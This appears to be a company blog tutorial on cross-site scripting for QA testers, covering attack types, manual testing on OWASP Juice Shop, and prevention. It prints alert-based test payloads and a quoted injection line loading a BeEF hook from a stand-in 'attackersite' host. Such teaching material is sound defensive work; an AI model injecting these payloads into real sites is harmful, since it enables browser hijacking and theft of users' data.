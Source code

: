 I decided to write this article because despite XSS being a common and older vulnerability, many QA and developers know very little about it, what it really is, how to test for or fix it. Probably you've heard of XSS before, but don't really know much about it. You may be wondering what Cross-Site
Scripting is, why you should test for it, or why it's important. Don't worry, we will cover everything you need to know in this article. By the end, you will have a general understanding of XSS, how to check for it, and how to
prevent it. + 
In this article, we will address the following topics:

* What is XSS?
* Why do you need to test for XSS vulnerabilities?
* How to test for XSS?
* Prevention methods
* Summary

== What is XSS?

In short, XSS is a security vulnerability where an attacker injects their own
client-side scripts into a site.

Let's take a look at a typical case for an XSS vulnerability using the image below and discuss what we see on it.

._A visual representation of a typical XSS attack flow via email_
[caption='']
image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da1e179ca5c5487ce23_wIU_4DfFrUMKTwmIM7qoJSGOR9zFJT8xS0FXJz3_flyDEYSOWyN137EA2lJmuPI4s2Mw7daOOl_g0QfYvvJMZqQtWPvKwKyClFUjdyA3Bvc59tEEKDliYDnUABlaSQm-IVntwATa.png[]

. Here, we have a case where an attacker has modified a link with malicious content. As an example, we can say the link is for a video sharing site and has a keylogger attached to it. The attacker emails it to an unsuspecting victim with an intriguing title 'Cutest cat ever'.
. The victim opens the email and clicks the link.
. The user is redirected to the actual video sharing site, and probably to a cute cat video. What the user doesn't know is that a keylogger is being executed. Now anything the user types will be sent to an unknown attacker.
. The data from the keylogger is sent to the attacker.

Okay, so that's an interesting case for spam emails, but many people know not to select links from unknown senders today, right? Let's look at one more typical case.

._An example of a stored XSS attack flow._
[caption='']
image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da141480acf2ab8f9d4_ffCbT9ZWavqT3EnWuEmoblsHmGseY8uqtM8CndDGIgmdy-2oWNMFrfKu8fuAZNddYwzskMn1suqfaCkQeVepV1hrbDdT6hL50W5_EP1rfk4AGE6bV5vPJbz5aqhe3y4sJWuXTZ5J.png[]

. In this situation, an attacker posts a comment on a site (such as a forum or social media page) which
contains malicious code.
. The malicious code is saved to the site's database.
. Later, a user visits the infected page.
. The user's browser runs the malicious script.

XSS can be broken down into three main types:<br>DOM-based XSS (common):

* Attack is executed as a result of modifying the DOM.
* Attacker modifies the client-side code.

Reflected XSS (most common):

* Attacker modifies the webpage HTTP request with malicious content.

Stored XSS (most severe):

* Attacker saves malicious content on the site's DB which can be run by other users.

For this article, we are going to focus on the basic flows for manual testing each type of XSS
vulnerability.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da25c702f8d7932f10a_4VQSX6wMY9roBktyIlD8TFERsNjpn-wDevjm5TMZQtCvpqXlOtm8qMaoaU0QKgcBQ8JwDL1xUL7IlTgx4BAz1CVLC0otC6MbX6PrSaY0DxDlJPupEO_uoPaB02gU2p0S3MP2_bW4.png[]

== Why do we need to test for XSS vulnerabilities?

Cross-site scripting is nothing new, yet it remains a very common security vulnerability. It consistently gets itself on the https://owasp.org/www-project-top-ten/[OWASP
Top 10 Web Application Security Risks^]. +
XSS attacks can be used to:

* Steal user data
* Escalate privileges
* Add a keylogger
* Hijack accounts
* Distribute a virus
* Change a site's layout
* Add a trojan login panel
* And many other client-side attacks

Potential costs of XSS vulnerabilities:

* Loss of money
* Loss of customers
* Reputation
* Loss of sales
* Data theft

The cost of an XSS vulnerability can be hard to gauge as it could be different for different sites. +
As an example, let's say we have an e-commerce store with an unprotected comments section for each product. An attacker leaves a comment with a malicious link to another product on the site. Now, any user who selects this link will execute the malicious code. If this code were a keylogger, then the users potentially give away their login to the site, their credit/debit card information, their address, and other personal information. Because users will now see the site as unsafe and possibly had their information or even money stolen, the potential costs here could be loss of reputation, loss of customers, data theft (for customers), loss of sales, and ultimately loss of money.

== How do we test for XSS vulnerabilities?

There are two ways to test for these risks, manually or with automated tools.

Testing manually can be very time-consuming, difficult, and somewhat unreliable. However, it's a good place to start, especially if you don't have access to the tools you need.

Automated tools are very useful in identifying possible vulnerabilities as well as testing browser hijacking. There are many tools available for this, but many of them are not free and can be quite expensive. Luckily, there are two free tools available which will cover your XSS testing needs:

* https://www.zaproxy.org/[OWASP ZAP^] (Zed Attack Proxy) - a free tool provided by OWASP. It has a combination of built-in tools and can be used for manual or automated testing.

* https://beefproject.com/[BeEF^] (Browser Exploitation Framework Project) - a free
pentesting tool which focuses on testing the web browser.

We also need to note that you should never run actually malicious code or code that you don't understand. Always use harmless code which you fully understand.

Now, let's proceed with learning how to test for each type of XSS vulnerability, as promised.

=== Testing for DOM-based XSS

Let's see how to test for DOM-based XSS by becoming the attacker. The first thing you need to do is look for an input field. This could be a comments section, search bar, or any place where the input is displayed after submission. Then, just type something that's expected for this field (i.e. a typical search or comment) and check the normal output. Next, make a series of submissions with different scripts attached and check the output against the original. It's best to start with something simple, like *<h1>* as it will tell you if the field allows special characters and runs the user's HTML. Repeat this process until you either find a vulnerability or are satisfied that the input isn't at risk. +
Let's take this one step further by breaking down each step while looking at an example. For this example, we decided to use an application provided by OWASP called OWASP Juice Shop. It is set up like a typical e-commerce site. +
*Step 1: Find an input field.*

Here we can see that there's a search bar, we will start there.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da269768da8652a4b39__rGoPEGzFyxyZfRxAPaAsAgFeer9ZjcXrmZQBXODWWNeRWCQBS7X6MaaQL6eoMNTZiAVh0BWZ-HmDJBSyu696jhvp20ybhR8cz35roiIbOu-Af-RIbTi2Wy4EXb_XyC4NpfpcpNM.png[]

*Step 2: Check the normal output of this field.* +
We'll make a simple search for "apple" and check the output.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da150972d7e426336cc_sWeKBHf3Sucw3O2yDL9Hz0LNZRp9xs9undm-ScSGZXJa9b4vMHOnYWq9NJM9rayLLzukqeRyLvqRLBa0wMFdVG3YCdgnRm5TNreMxir-OpzbZLcnSKN__GfJbj9ZUBdJLtlZumez.png[]

*Step 3: Try a simple HTML tag*. +
Now, we will slightly change our search to *<h1> apple*. This is a quick way to determine if an input needs further testing. If the output is modified, then there is a high probability that more complex scripts will run. That being said, a lack of change in the output doesn't mean that the input is safe.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da22add8d19a1319043_Z3CqftxBaSp5UAk4auW7R0_3SZPh54GMlwAX5deX21wuhB-VOQjn-p7vKfn33DKQwbyQ6g3RsDHqF7vx_EkA8x-nPnnkOX9epjEcmDLJj4xh3oh05cWtsV9z2RsHooALYKAcN_E3.png[]

Look at that! The output is different than before! This tells us that we definitely
need to spend more time testing this input. +
*Step 4: Try more complex scripts*.

Now that we have a good reason to continue testing this input, let's try again with another script. There are many scripts you could choose from, but I find that it's easier to use those which will produce an alert on the screen. That is why we will try *<script> alert("XSS")</script> apple*.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da1de3f7057cde5ffda_ipDUDgMKrmu9YCYviBAJg5qmOQIjC6CACi2s4pEtTrmRYGcN5TlgaNbCVzQ3k2msXX6skGxkn8v-bD7rfLsm1TBIkN7PlCCGuNwz3rp56i-XL44StyIyx_7EhMKzJlev6_3QKJrw.png[]

Ok, so that didn't work. But we can't give up so easily. Let's try another! +
*Repeat Step 4: Try another script*. +
This time we'll try *<img src="" onerror=alert('XSS')> apple*.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da2ef0245316890163b_cDFHUZwHZoaS-NMMRKBTJ8xfS5s7-4Hah3s-nW4ajFoIwcTMt1BS11ZHMHFnrK1pbXXb382dtcJoA-cT9pjUrNNezn5WKGf8Mb5FQPvIRVQj1gSO2QeGebJ5WvzWvjbtKKOiApAD.png[]

Woah! Notice how this time we were able to add a broken image to the page. That's great, but our alert still didn't appear. We need to keep trying. +
*Repeat Step 4: Try another script*.

Now we will try *<iframe src="javascript:alert(`xss`)"> apple*.

image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da2fa45d01b8d8eea65_gk8HsgxR5pkEkZPja5L00dmGwEV4bAImkUIXjBEUEg8csKO1p2z69xz3tJCrNzS5HPtND3DHTX0008HVwzM5YHZKjuacOWr1JmD8_DMmmAx_xXr_9OM5_P5-NTzQYDD4gcu-OZnk.png[]

Finally! We have injected an iframe into the DOM and successfully run the corresponding alert script.

If you look closely at the scripts we used, you'll notice that we used different combinations of single quotes, double quotes, and back-ticks.

<script> alert("XSS") </script>

<img src="" onerror=alert('XSS')>

<iframe src="javascript:alert(`xss`)">

This isn't just for fun, sometimes every detail matters, including font! That's why it's best to start small - you never know which characters will be accepted. If you want to try this for yourself, you can practice the same example on the https://owasp.org/www-project-juice-shop/[OWASP Juice Shop^] testing site.

=== Testing for reflected XSS

For reflected XSS, we need to find places where user input is reflected on the page. Next, test it's normal output. Then, slowly try to manipulate these variables (or even the URL itself) until you succeed or are satisfied that there isn't a vulnerability. +
Let's take a look at an example. +
*Step 1: Find an input field or URL variable which reflects user input. +
Step 2: Check the normal output.*

Here we have a simple site which welcomes the user with their name and displays a link.

._This example is provided by the https://owasp.org/www-project-web-security-testing-guide/[OWASP testing guide^]_.
[caption='']
image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f366da33bea2a7a56161e53_hxunvZOnEKcFVPiMzrLx-EBdYsyOYwtgCL70MhI3FnOw4ZFvuRnm6Sz4vittiPCOr0WzOV60dRycPJxvgls9NYs-GlUBFAbEKeCY-or9gEUKDgwP_ExOLwurHEN1gFpkXPKxy2nM.png[]

"We can see already that there's a variable (query parameter) in the HTTP request which is
displayed on the *page(user=MySmith)* - we will start by using this variable to attack the
page.

*Step 3: Try something simple.*

As with DOM XSS, start small and simple." +
*Step 4: Try something more complex.*

Now we'll try more complex scripts and check the output. For this example, we will modify the URL directly, rather than messing with the input field. We will replace *user=MrSmith" with "user=< script> alert(123)</script>*.

._This example is provided by the https://owasp.org/www-project-web-security-testing-guide/[OWASP     testing guide^]_.
[caption='']
image::https://uploads-ssl.webflow.com/5c4c30d0c49ea6746fafc90c/5f3a386d18ce2431beea9182_Screenshot%20(4).png[]

"Success! As you can see, the script was executed in the user's browser. We also want to
draw your attention to the fact that the original webpage looks normal - a user would have no idea they
executed malicious code if we weren't using an alert function.

=== Testing for stored XSS

The steps for testing stored XSS are pretty much the same as for DOM-based XSS. +
*Step 1: Find an input field.* +
*Step 2: Check the normal output of this field.* +
*Step 3: Try something simple. +
Step 4: Try more complex scripts, repeat.* +

In general, you should check:

* Any place where user input is saved to the DB (like user profiles, comments, file uploads, shopping
    carts)
* GET, POST, PUT requests
* The ability to manipulate the page's HTML
* The ability to store malicious content somewhere public
* The ability to replace the page's links

Let's take a look at one example of a test using the BeEF tool, which was provided by the https://owasp.org/www-project-web-security-testing-guide/[OWASP testing guide^]. A typical test scenario would be:

* Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF). Example BeEF Injection in index2.php can be:

email@test.com”><script src=http://attackersite/beef/hook/beefmagic.js.php></script>

* Waiting for the application user to view the vulnerable page where the stored input is displayed

* Control the application user's browser via the BeEF console

With the example above, an attacker could add a script to their own email on the webpage. This could possibly be done during registration or with updating a user profile. Then, any user who views a page, that runs this malicious code, is now a potential victim as their browsers can now be controlled by the attacker.

== How do we prevent or fix XSS vulnerabilities?

There are many different ways to prevent such vulnerabilities. You will need to choose based on your project and it's needs. The best defense is a combination of methods.

*Prevention methods*:

* *#1 rule: Don't trust your users!* Trusting users, even logged-in or admin users, leads to
many security vulnerabilities - just don't do it. What do I mean when I say not to trust the users? I mean that you should treat all fields as potential attack targets. Maybe there is a field or form that only an app admin can access - who is this admin? Do you know how secure their password is? You don't know - and there is always the possibility that this admin, or an attacker who stole the admin's login credentials, could place malicious code anywhere. So, protect all inputs and treat all users as a possible threat.

* *Enable a Content Security Policy (https://content-security-policy.com/[CSP^]) - an HTTP response header that works to reduce the risk of XSS vulnerabilities.
* *Use frameworks and/or libraries*. Many modern frameworks and libraries have built-in
    security to reduce XSS risks.
* https://en.wikipedia.org/wiki/Escape_character[*Escape*] *special characters* - replace them with something else which prevents the malicious code from running.
* *Encode data*
* *Filter data on input* to remove dangerous content before saving it to the database.
* https://wiki.sei.cmu.edu/confluence/display/java/Input+Validation+and+Data+Sanitization[*Sanitize*^] data (on input and output)</strong> to ensure that the passed data meets security requirements
by means of removing, escaping, encoding, or replacing special characters. It's important to sanitize data on input to prevent saving malicious content to the database and on output to prevent malicious code execution in the browser.
* *Use HTTPS header instead of HTTP*. Hint: the 'S' means 'Secure'. This protection is
    excellent for preventing reflected XSS vulnerabilities.
* *Protect cookies with 'secure' and 'HTTPonly'.*
* *Use black lists or white lists.* It's better to use whitelisting because it's impossible
    to blacklist all unwanted content.
* And many other options... Here at Valor Software, we use a unique combination of protection methods for each project, based on needs, to ensure stable security for our customers.

It's important to use a combination of prevention methods to ensure your site is secure. Using only one or two methods isn't enough. For example, character escaping can be seen by the attacker, and with time they could find a way to bypass the escaping method. So, it's why you need a combination of protection methods on user input and output.

== Summary

Let's sum up everything.

XSS is a common and serious security vulnerability. We covered what XSS can be used to do, how XSS can harm a person, or business, and what the potential costs are. We took a look at the three main types of XSS vulnerabilities, how they work, and how to test for them.

General manual testing flow for various XSS vulnerabilities is:

. Find an input field.
. Check normal output.
. Check output with code - remembering to start small.
. Repeat with other codes until success or you're confident in the level of security.<br>

We also discussed, and perhaps experienced, how manual security testing is very time-consuming, so it's best to use automated tools whenever possible. Finally, we reviewed XSS prevention methods and why the best protection is a combination of several methods. +
As promised, you should now have a general understanding of this vulnerability, how to test for it, and how to prevent it.






